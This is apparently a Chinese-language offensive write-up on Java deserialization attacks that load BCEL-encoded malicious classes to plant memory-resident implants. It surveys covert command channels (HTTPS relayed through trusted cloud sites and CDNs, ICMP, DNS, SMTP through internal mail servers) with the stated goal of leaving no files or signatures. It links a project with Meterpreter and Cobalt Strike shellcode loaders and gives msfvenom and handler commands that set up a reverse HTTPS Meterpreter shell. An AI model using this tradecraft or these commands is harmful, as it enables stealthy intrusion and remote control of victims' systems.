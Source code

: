 早期支持classloader的版本，将恶意class文件进行bcel编码，然后通过defineClass直接加载是个好办法，反序列化不只是rce，还有任何java代码执行的功能，具体的单Class功能实现考虑几种协议和文件实现。

1. http隧道

   直接通过deniclass一键种马,安卓的Dalvik(s) JIT 可以用来直接加载shellcode一样，

2. 其他c2地址

   采用的C2地址来自于为微软、aws和oracle官方站点，服务端升级、变更、撤离和定制上报内容时不是很方便，需要改进自己实现https的服务器端，通过Microsoft、Oracle站点的ssrf调用cloudflare的CDN联系后端远控下发命令。

3. icmp隧道

   java提供对raw socket的很有限的支持，要想实现icmp需要jpcap或者RockSaw Raw Socket Library，目前没有实现这样的工具，读者可以考虑通过调用其他jni工具实现。

4. dns隧道

   dnslog是最简单直接的利用方法，相关的姿势不再重复。

5. smtp

   其实smtp是个好办法，获取内部的zimbra或者exchange一个，走smtp协议附件转发，既可以进行文件传输，也不用担心心跳特征，网络也在IDC区域。当然首先你需要有邮箱账户。

## 发牌

1. 切入点是Exploit.class的具体实现不再是rmi、ldap，而是直接加载class文件；
2. 反序列化时手法精巧，避免报错显示；
3. 避免反弹shell，而在这一步直接植入木马到内存中，原生JAVA编码实现攻击者远控下发，victim执行的操作；
4. 通信隧道方面走https到可信的c2服务器站点，icmp协议、dns协议

**最终实现无文件残留，无敏感特征，通信双向加密。**

如何达到这一点目标？

笔者在这里实现了通过编码shell code，结合bcel在反序列化时种马的办法。

https://github.com/nanolikeyou/R9000.git  git项目下有几个java文件，分别用来： 

MSFPayload.java:远程触发加载msf生成的远控meterpreter；CobaltStrike.java；记载cs和msf生成的shellcode到内存中，BCELEncode.java，将MSFPayload或CobaltStrike的class文件进行bcel编码，方便构造反序列化poc。

如何不需要使用bcel的方式，直接将生成的MSFPayload.class或者CobaltStrike.class作为rmi、ldap托管的JNDI类也可。

## 出牌：

> talk is cheap,show me the code

### MSFPayload的使用办法

首先使用进入msfconsole，生成msf payload，提取 metasploit.dat里的远程地址，形如URL=https://8.8.8.8:443/7UPg239jNUwQgAEIKIRr45vljLb3wVQshFSxIEqz8aprtR_32bn7crmons7R3ihHKIPxbUlXUaqJmKQzPJvIyHR

```shell
msfvenom -p java/meterpreter/reverse_https LHOST=8.8 LPORT=4446 -f raw > https.jar

jar -xvf https.jar && tail metasploit.dat
```
服务器端进行监听
```shell
use exploits/multi/handler
set PAYLOAD java/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT 443
exploit
```
